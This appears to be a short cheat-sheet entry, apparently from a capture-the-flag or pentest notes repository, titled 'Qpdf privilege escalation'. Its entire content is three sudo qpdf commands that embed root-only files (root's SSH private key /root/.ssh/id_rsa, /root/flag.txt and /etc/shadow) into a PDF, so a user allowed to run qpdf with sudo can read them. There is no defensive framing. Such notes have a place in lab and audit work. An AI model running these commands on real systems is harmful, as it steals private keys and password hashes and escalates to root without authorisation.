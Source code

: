 # Qpdf privilege escalation

## Sudo

### Usage:

 - sudo /usr/bin/qpdf --qdf --add-attachment /root/.ssh/id_rsa -- --empty ./id_rsa (Get root ssh private key)

 - sudo /usr/bin/qpdf --qdf --add-attachment /root/flag.txt -- --empty ./flag.txt (Get root flag)

 - sudo /usr/bin/qpdf --qdf --add-attachment /etc/shadow -- --empty ./shadow (Get shadow file)




